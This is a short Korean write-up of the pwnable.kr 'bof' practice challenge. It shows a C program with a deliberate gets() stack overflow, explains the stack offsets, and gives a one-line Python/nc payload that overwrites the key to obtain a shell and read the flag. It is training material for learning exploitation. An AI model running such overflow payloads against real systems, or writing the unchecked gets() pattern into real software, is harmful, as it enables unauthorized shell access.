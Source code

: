 ```yaml
---
sort: 3
---
```


# bof

home 디렉토리에 col.c파일을 확인하면 소스코드를 볼 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

<img src="/picture/pwnable.kr/bof.png" width="1000"/>

overflowme의 주소는 ebp-0x2c이고, func의 첫번째 인자인 key의 위치는 ebp+0x8이기 때문에 아래와 같이 해주면 된다.

```bash
$ (python -c "print('A'*0x34+'\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000
cat flag
```

```tip
## 알게 된 점

bof
```